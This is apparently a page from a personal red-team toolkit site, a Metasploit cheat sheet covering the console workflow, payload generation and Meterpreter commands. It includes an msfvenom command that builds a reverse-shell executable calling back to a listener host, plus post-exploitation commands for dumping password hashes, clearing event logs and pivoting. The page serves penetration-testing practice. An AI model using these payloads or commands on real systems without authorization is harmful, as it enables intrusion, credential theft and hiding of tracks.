

repository: EvolvingSysadmin/Red-Team-Toolkit · page: initial-access/metasploit/index.html · generator: mkdocs · copyright: Copyright © Ryan Heavican

# Metasploit

Open-source exploitation framework with a large library of exploits, payloads, and post-exploitation modules.

## When I Use It

* Exploiting a known-vulnerable service where a reliable module exists
* Generating payloads with msfvenom
* Post-exploitation on a Meterpreter session: enumeration, pivoting, credential access

## Installation

Included in Kali. Initialize the database first with `msfdb init`, then start the console with `msfconsole`.

## Common Tasks

### Console Workflow

| Command | Purpose |
| :--- | :--- |
| `search <term>` | Find a module (for example `search eternalblue`) |
| `use <module>` | Select a module |
| `show options` / `info` | Show and explain module settings |
| `set RHOSTS <ip>` / `set LHOST <ip>` | Set target and listener |
| `show payloads` / `set payload <n>` | Choose a payload |
| `exploit` / `run` | Launch |
| `sessions -i <id>` | Interact with a session |

### Generating Payloads with msfvenom

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f elf > shell.elf
msfvenom --list payloads | grep meterpreter
```

### Meterpreter Commands

| Category | Commands |
| :--- | :--- |
| Core | `background`, `sessions`, `migrate`, `load`, `run`, `info` |
| File system | `cd`, `ls`, `pwd`, `cat`, `edit`, `rm`, `search`, `upload`, `download` |
| Networking | `ipconfig`, `netstat`, `arp`, `route`, `portfwd` |
| System | `getuid`, `getpid`, `ps`, `shell`, `sysinfo`, `clearev` |
| Privilege / creds | `getsystem`, `hashdump` |

## Reading the Output

* `getuid` after a session confirms the privilege level you landed with
* Prefer `check` before `exploit` where a module supports it, to confirm the target is vulnerable without firing
* Background a shell with Ctrl+Z and upgrade it to Meterpreter when you need the fuller command set
